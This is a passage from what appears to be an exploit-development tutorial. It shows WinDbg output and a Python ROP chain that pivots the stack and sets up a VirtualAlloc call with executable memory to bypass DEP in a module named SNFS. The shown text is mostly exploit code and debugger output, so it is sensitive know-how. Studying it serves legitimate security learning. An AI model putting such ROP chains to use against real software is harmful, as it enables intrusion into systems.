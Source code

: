```python
  Chars:   ....
  Time:    Wed Dec 31 16:00:20 1969
  Float:   low 2.8026e-044 high 0
  Double:  9.88131e-323

#add four bytes

0:001> .formats -00000018
Evaluate expression:
  Hex:     ffffffe8
  Decimal: -24
  Octal:   37777777750
  Binary:  11111111 11111111 11111111 11101000
  Chars:   ....
  Time:    ***** Invalid
  Float:   low -1.#QNAN high -1.#QNAN
  Double:  -1.#QNAN

rop += pack("<L", (0x10022a64)) # pop ecx ; ret  ;
rop += pack("<L", (0xffffffec)) # negative offset value start at 

rop += pack("<L", (0x10012ef4)) # add eax, ecx ; pop esi ; ret  ;
rop += pack("<L", (0x42424242)) # pop esi

rop += pack("<L", (0x50218139)) # push eax ; pop ebp ; ret  ;

rop += pack("<L", (0x1001a555)) # mov esp, ebp ; pop ebp ; ret  ;
```

We check that everything works before we continue and to ensure that we successfully reach just short of our `VirtualAlloc` as intended.

```python
0:006> dds ebp L8
018fe2ec  41414141
018fe2f0  100252e0 SNFS!_imp__VirtualAlloc
018fe2f4  018fe434
018fe2f8  018fe434
018fe2fc  00000001
018fe300  00001000
018fe304  00000040
018fe308  018fe30c
0:006> p
eax=018fe2ec ebx=42424242 ecx=ffffffe8 edx=db61fb30 esi=42424242 edi=42424242
eip=1001a557 esp=018fe2ec ebp=018fe2ec iopl=0         nv up ei pl nz na po cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000203
SNFS!_except_handler3+0xbb:
1001a557 5d              pop     ebp
0:006> dds esp L12
018fe2ec  41414141
018fe2f0  100252e0 SNFS!_imp__VirtualAlloc
018fe2f4  018fe434
018fe2f8  018fe434
018fe2fc  00000001
018fe300  00001000
018fe304  00000040
```
